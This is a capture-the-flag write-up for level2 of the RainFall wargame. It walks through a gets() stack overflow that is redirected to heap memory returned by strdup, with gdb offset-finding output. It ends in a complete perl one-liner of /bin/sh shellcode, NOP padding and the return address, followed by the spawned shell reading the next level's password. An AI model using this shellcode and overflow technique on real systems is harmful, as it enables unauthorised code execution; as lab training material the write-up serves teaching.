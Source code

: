 ### Analysis

**In `main` :**
Just a call to function `p()`

**In `p()` :**
call to `gets` which is vunerable to overflow
There is a protection afterward to check if `eip` doesn't get overwritten by an adress from the stack
we cannot use the stack but thanks to `strdup` we can use the heap

Adress of the allocated memory by strdup on the heap is `0x0804a008`
```
level2@RainFall:~$ echo "42" | ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
...
strdup("42")                = 0x0804a008
+++ exited (status 8) +++
```

___

### Exploit

Determine the offset of `eip` => 80
```
 ❯ python3 offset.py   
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

(gdb) r
Starting program: /home/user/level2/level2
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz%
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz%

Program received signal SIGSEGV, Segmentation fault.
0x55555555 in ?? ()

 ❯ python3 offset.py 55
80
```

We'll write a shellcode on the heap with `strdup`
and overwite `eip` to its adress

So the end buffer is:
 - shellcode (45 bytes)
 - NOP instructions (35 characters)
 - address allocated by strdup (4 bytes)
```
level2@RainFall:~$ perl -e 'print "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" . "\x90" x 35 . "\x08\xa0\x04\x08\n"' > /tmp/level2 && cat /tmp/level2 - | ./level2
�^�1��F�F
          �
           ���V
               ̀1ۉ�@̀�����/bin/sh�������������������������������
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
